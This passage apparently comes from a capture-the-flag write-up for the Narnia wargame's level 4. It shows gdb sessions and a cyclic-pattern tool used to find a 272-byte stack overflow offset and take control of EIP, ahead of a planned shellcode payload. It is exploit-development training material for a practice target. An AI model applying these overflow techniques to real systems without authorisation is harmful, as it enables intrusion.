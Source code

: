 {% highlight console %}
local $] ./pattern.py 300
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7
Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5
Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
{% endhighlight %}

{% highlight console %}
narnia4@melinda:/narnia$ gdb -q ./narnia4 
Reading symbols from ./narnia4...(no debugging symbols found)...done.
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5
Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4
Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3
Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
Starting program: /games/narnia/narnia4 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5
Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4
Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3
Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9

Program received signal SIGSEGV, Segmentation fault.
0x316a4130 in ?? ()
{% endhighlight %}

{% highlight console %}
local $] ./pattern.py 0x316a4130
Pattern 0x316a4130 first occurrence at position 272 in pattern.
{% endhighlight %}

This tells us we have 272 bytes to play with. Plenty of space to construct
a nopsled and shellcode payload. Let's find out what we need to write into
`EIP`.

{% highlight console %}
(gdb) r $(python -c "print 'a'*272 + 'bbbb'")
Starting program: /games/narnia/narnia4 $(python -c "print 'a'*272 + 'bbbb'")

Program received signal SIGSEGV, Segmentation fault.
0x62626262 in ?? ()
(gdb) x/200x $esp
0xffffd5c0:	0x00000000	0xffffd654	0xffffd660	0xf7feacea
0xffffd5d0:	0x00000002	0xffffd654	0xffffd5f4	0x080497cc
0xffffd5e0:	0x0804825c	0xf7fca000	0x00000000	0x00000000
0xffffd5f0:	0x00000000	0x7cc8a421	0x44f76031	0x00000000
0xffffd600:	0x00000000	0x00000000	0x00000002	0x080483b0
0xffffd610:	0x00000000	0xf7ff0500	0xf7e3c979	0xf7ffd000
0xffffd620:	0x00000002	0x080483b0	0x00000000	0x080483d1
0xffffd630:	0x080484ad	0x00000002	0xffffd654	0x08048550
0xffffd640:	0x080485c0	0xf7feb180	0xffffd64c	0x0000001c
0xffffd650:	0x00000002	0xffffd78f	0xffffd7a5	0x00000000
0xffffd660:	0xffffd8ba	0xffffd8ce	0xffffd8de	0xffffd8f1
0xffffd670:	0xffffd914	0xffffd927	0xffffd930	0xffffd93d
0xffffd680:	0xffffde5e	0xffffde69	0xffffde75	0xffffded3
0xffffd690:	0xffffdeea	0xffffdef9	0xffffdf05	0xffffdf16
0xffffd6a0:	0xffffdf1f	0xffffdf32	0xffffdf3a	0xffffdf4a
0xffffd6b0:	0xffffdf80	0xffffdfa0	0xffffdfc0	0x00000000
0xffffd6c0:	0x00000020	0xf7fdbb60	0x00000021	0xf7fdb000
0xffffd6d0:	0x00000010	0x1f898b75	0x00000006	0x00001000
0xffffd6e0:	0x00000011	0x00000064	0x00000003	0x08048034
0xffffd6f0:	0x00000004	0x00000020	0x00000005	0x00000008
0xffffd700:	0x00000007	0xf7fdc000	0x00000008	0x00000000
0xffffd710:	0x00000009	0x080483b0	0x0000000b	0x000036b4
0xffffd720:	0x0000000c	0x000036b4	0x0000000d	0x000036b4
0xffffd730:	0x0000000e	0x000036b4	0x00000017	0x00000000
0xffffd740:	0x00000019	0xffffd76b	0x0000001f	0xffffdfe2
0xffffd750:	0x0000000f	0xffffd77b	0x00000000	0x00000000
